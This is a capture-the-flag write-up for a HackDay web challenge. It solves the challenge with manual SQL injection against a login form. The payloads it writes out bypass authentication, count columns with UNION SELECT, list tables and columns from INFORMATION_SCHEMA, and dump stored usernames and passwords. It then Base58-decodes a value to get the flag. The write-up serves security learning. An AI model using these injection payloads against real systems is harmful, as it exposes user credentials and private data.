









# The analytical engine leak

> In the shadow of the huge copper chimneys, a dark plot is brewing. The engineers of the Inventors' Guild have developed a revolutionary device: a steam-powered analytical machine capable of deciphering all secret codes. But before it could be activated, a group of cyber-saboteurs, the Black Mist, infiltrated its network to steal the plans. Fortunately, the plans were encrypted.
>
> An allied spy intercepted a trail leading to the Steam Station's digital archives, where a secret database stores crucial information for deciphering the device's plans. However, access is restricted, and only a few people can extract the contents.
>
> Your mission: exploit a flaw in the system to recover the encryption key before it falls into the wrong hands. To avoid alerting an archivist, the use of automatic tools is prohibited. Manual exploitation only.
> 
> no sqlmap or things like that allowed
> 
> `challenges.hackday.fr:45314`

Upon opening the website, we see the page where user credentials can be entered.

Writing standart a SQL Injection `' OR 1=1--` in the input gave us a response with all users.

The task description says that there could be a secrets. Let's try to use another SQL Injection to list all existing tables. Firstly, we should determine the amount of output columns. After trying `' UNION SELECT NULL, NULL--`, we receive an error `Erreur SQL : SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns`.

Query ` UNION SELECT NULL, NULL, NULL--` sent us `Not found in the DB.`, so the output must have 3 columns.

Now we will use `' UNION SELECT NULL, table_name, NULL FROM INFORMATION_SCHEMA.TABLES;--` as input and get all tables. This query will union INFORMATION_SCHEMA.TABLES that has information about existing tables.

At the bottom of this list, we find the `blueprints` table.

The next step is to retieve all columns of the `blueprints` table. We will use `' UNION SELECT NULL, column_name, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'blueprints';--` for this.

Now, we retrieve all values from these columns. Query `' UNION SELECT NULL, CONCAT(id, ' - ', username, ' - ', password,  ' - ', is_encrypted, ' - ', file_name, ' - ', description), NULL FROM blueprints;--` should help us. We will union the output with `blueprints` table concatenated values.

Row with id=4 has an interesting description `W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`. Let's try send this to the [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')&input=VzVIV1J4V2JaTTdBVWh4Z2ZSd1pnNThBTlFGS2dNd3V0Rw) with "Magic" as a Recipe.

It turns out the description encoded using Base58.

`HACKDAY{$ea5y_INjeCTion$}`
